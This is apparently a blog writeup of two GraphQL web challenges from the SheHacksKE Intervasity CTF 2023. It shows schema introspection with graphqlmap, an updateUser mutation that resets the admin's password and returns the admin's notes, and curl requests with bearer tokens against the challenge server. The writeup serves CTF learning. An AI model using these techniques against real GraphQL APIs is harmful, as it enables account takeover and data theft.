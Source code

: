 ```yaml
---
date: "2023-09-25T00:00:00Z"
title: SheHacksKE Intervasity CTF 2023 Writeup
tags : ["Web", "Graphql"]

---
```


# SheHacksKE Intervasity CTF 2023 Web Writeups

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/11161aea-e301-4f2c-a944-7ae8e5b79fbf)


- On friday the 22nd of September 2023 I had an opportunity to take part in the Annual Intervasity CTF from SheHacksKE with some friends from fr334aks under the alias "Seekers" which was partly online and also onsite at USIU Africa,
We ended up winning 🥇 beating atleast other 80 teams that had atleast a single solve in the CTF


## Graph1 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/ed185ee7-3496-4482-af0f-c1942f213b00)


- This was a fairly easy challenge, all that was required of us was to query the flag using the GetFlag query that would fetch the flag from the Flagtable. 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/ee7de725-3933-42db-8d2e-ebe167d54665)

Base64 decoding the encoded strings gives the flag :) 


## Graph2 

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/bbc99130-6875-4498-8fbf-aa85efe9f75e)


Spent sometime here as i haven't solved alot of graphql challenges before, but in the end it was worth it,
The challenge as the description said is for one to fetch or retrieve the hidden note,
This hidden note probably belonged to an admin.
I copied the Introspection Query from Graphql voyager to get a better understanding of the queries, available relationships etc. 


![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/751ae80a-6fa6-406a-8122-fccc989fac6a)

I also used graphqlmap to gather more information as well, including mutations and potential injection points or queries that I missed.

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/90f555c9-c5c5-48c0-9dae-07c97c452657)

![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/a88f540b-30aa-42eb-be2c-03cbbaf2af86)


### what I tried and failed 


- Creating a User with user id 1 :x:
- Forging the Session Key (Authentication bearer) to include isAdmin user property as True :x:
- Creating a User with isAdmin user property as True :x:
- Modifying The Note with ID 1 to any title and hence be able to read the new note :x:

### What worked 

- Modify User with ID 1 to our controlled password (?) and return the current data along with the admin notes :heavy_check_mark:
 

## Solution 

```bash 

GraphQLmap > dump_via_fragment
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

00: Query
        findNote[]: id (Int!), 
        userNotes[Notes]: 
        getusers[User]: 
        getFlag[FlagTable]: 
01: Notes
        id[ID]: 
        title[]: 
        body[]: 
        userId[]: 
        user[]: 
05: User
        id[ID]: 
        firstName[]: 
        lastName[]: 
        isAdmin[]: 
        email[String]: 
        password[]: 
        notes[Notes]: 
07: FlagTable
        id[ID]: 
        flag[]: 
08: Mutations
        addNote[]: body (String!), title (String!), 
        (?) mutation{addNote(body:"string",title:"string"){ result }}
        updateNote[]: body (String!), noteId (Int!), title (String!), 
        (?) mutation{updateNote(body:"string",noteId:1,title:"string"){ result }}
        deleteNote[]: id (Int!), 
        (?) mutation{deleteNote(id:1){ result }}
        createUser[]: email (String!), firstName (String!), lastName (String!), password (String!), 
        (?) mutation{createUser(email:"string",firstName:"string",lastName:"string",password:"string"){ result }}
        logIn[]: email (String!), password (String!), 
        (?) mutation{logIn(email:"string",password:"string"){ result }}
        updateUser[]: id (Int!), lastName (String!), password (String!), 
        (?) mutation{updateUser(id:1,lastName:"string",password:"string"){ result }}
09: addNote
        ok[]: 
        note[]: 
10: updateNote
        ok[]: 
        note[]: 
11: deleteNote
        ok[]: 
        note[]: 
12: createUser
        ok[]: 
        user[]: 
13: logIn
        ok[]: 
        tokens[]: 
14: Token
        id[ID]: 
        user[]: 
        accessToken[]: 
        refreshToken[]: 
15: updateUser
        ok[]: 
        user[]: 
16: __Schema
17: __Type
19: __Field
20: __InputValue
21: __EnumValue
22: __Directive
```

As you can see on the `updateUser` mutation graphqlmap provided us with a sample query that we can use to update user info as

```graphql
 updateUser[]: id (Int!), lastName (String!), password (String!), 
        (?) mutation{updateUser(id:1,lastName:"string",password:"string"){ result }}`

```

I later modified this query to  

```graphql 
mutation {
  updateUser(id: 1, lastName: "Admin", password: "admin") {
    ok
    user {
      id
      email
      firstName
      lastName
      password
      notes {
        id
        title
        body
      }
    }
  }
}

```
which can be defined as 

```graphql 

updateUser
  ok[]: 
  user[]:
    id[]
    email[]
    firstName[]
    lastName[]
    password[]
    notes[]:
      id[]
      title[]
      body[]

```
![image](https://github.com/k0imet/k0imet.github.io/assets/60982828/a5b2ab15-2c83-4a37-a22c-f8c768338a00)

- Decode for full flag

### Misc 

#### createuser 

```zsh
curl -X POST -H "Content-Type: application/json" --data '{ "query": "mutation { createUser(firstName: \"NewUser\", lastName: \"Admin\", email: \"newuser@admin.com\", password: \"EasyPassword123\", isAdmin: true) { ok user { id firstName lastName email isAdmin } } }" }' http://128.199.47.43:5000/graphql
```

#### login 

```zsh
curl -X POST \
-H "Content-Type: application/json" \
--data '{ "query": "mutation { logIn(email: \"koimet@koimet.com\", password: \"koimet") { ok tokens { accessToken refreshToken } } }" }' \
http://128.199.47.43:5000/graphql
```

#### GetUsers

```zsh
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTM3NTA1NCwianRpIjoiMDU3ZjY3YWYtNGRlYS00MWYzLTgwMTMtYmVkMDg3YTg0Yjc3IiwidHlwZSI6ImFjY2VzcyIsImlkZW50aXR5IjoibmV3dXNlckBhZG1pbi5jb20iLCJuYmYiOjE2OTUzNzUwNTQsImV4cCI6MTY5NTM3NTk1NH0.g0SJZtVyKQfdv-vlZJc8zfM9F4HRN00bMivuqn-RNe8" --data '{ "query": "{ getusers { firstName lastName isAdmin email password notes { id title body userId } } }" }' http://128.199.47.43:5000/graphql
```


#### userNotes 

```zsh
curl -X POST \
-H "Content-Type: application/json" \
-H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5NTM3NTA1NCwianRpIjoiMDU3ZjY3YWYtNGRlYS00MWYzLTgwMTMtYmVkMDg3YTg0Yjc3IiwidHlwZSI6ImFjY2VzcyIsImlkZW50aXR5IjoibmV3dXNlckBhZG1pbi5jb20iLCJuYmYiOjE2OTUzNzUwNTQsImV4cCI6MTY5NTM3NTk1NH0.g0SJZtVyKQfdv-vlZJc8zfM9F4HRN00bMivuqn-RNe8" \
--data '{ "query": "{ userNotes { id title body userId user { firstName lastName } } }" }' \
http://128.199.47.43:5000/graphql
```


## References 

⚫ [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
⚫ [ctftime](https://ctftime.org/tasks/?hidden-tags=graphql)
